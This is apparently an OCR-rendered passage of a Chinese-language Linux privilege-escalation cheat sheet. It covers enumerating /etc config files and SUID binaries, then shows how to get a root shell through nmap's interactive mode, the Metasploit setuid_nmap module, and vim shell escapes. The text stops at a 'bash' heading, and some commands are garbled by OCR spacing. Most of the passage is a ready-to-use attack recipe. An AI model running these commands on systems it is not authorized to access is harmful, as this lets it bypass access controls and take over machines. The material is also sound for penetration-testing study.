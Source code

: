 ```bash
#在/etc中列出配置文件
find /etc -maxdepth 1 -name \'\*.conf\' -type f
ls -la /etc/\*.conf 
#显示可能有趣的打开文件
lsof \| grep \'/home/\|/etc/\|/opt/' 
也可以使用 sudo -l 命令列出当前用户可执行的命令
```

### 常用提权方式

**nmap**

```bash
#查找设置了SUID位的可执行文件
find / -perm -u = s -type f 2> / dev / null
```

```bash
#让我们确认nmap是否设置了SUID位。
ls -la / usr / local / bin / nmap
```

Nmap的SUID位置,很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交 互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特 权运行，我们可以通过其交互模式访问\'root\'shell。

```bash
#运行nmap交互模式
nmap --interactive 
#我们可以从nmap shell转到系统shell
！sh
```

msf中的模块为：

```bash
exploit/unix/local/setuid_nmap
```



**vi/vim**

Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC

```bash
:set shell=/bin/sh
:shell
```

或者

```bash
sudo vim -c '!sh'
```

**bash**
